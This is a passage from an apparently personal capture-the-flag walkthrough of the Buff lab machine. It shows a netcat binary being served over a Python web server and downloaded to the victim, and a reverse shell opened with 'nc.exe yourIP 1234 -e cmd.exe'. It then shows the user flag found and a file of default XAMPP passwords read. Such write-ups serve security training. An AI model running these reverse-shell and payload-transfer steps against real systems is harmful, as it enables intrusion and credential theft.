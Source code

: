 so now we run the script with target url as parameter

<img src="/images/buff/boku.png" />

Now we need to upgrade our shell because moving around in this one is something I don't intend to do. So we transfer the netcat binary for a reverse shell. [Find it here](https://github.com/int0x33/nc.exe?files=1). So I start python server with command `python3 -m http.server 5555` and now onto the victim machine we download these files with `http://YourIPAddress:5555/nc.exe -o nc.exe`

{%highlight bash%}
nc -lvp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.10.10.198 57228 received!
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\gym\upload>

{%endhighlight%}

and start a netcat listener on your machine with `nc -lvp 1234` then `C:\xampp\htdocs\gym\upload\nc.exe yourIP 1234 -e cmd.exe` on the attacking machine. You should have a command prompt now.

And we are already user shaun which means we can try and get the user flag. Fair enough we found the users.txt in the Desktop of shaun. Easiest user flag I have ever seen, I bet the root flag whould be easy too(**WRONG!**).

So now we just start look around for interesting files. I find some juicy stuuf like passwords.txt containing
{%highlight bash%}
C:\xampp>type passwords.txt
type passwords.txt
\### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:
   (means no password!)

2) FileZilla FTP:
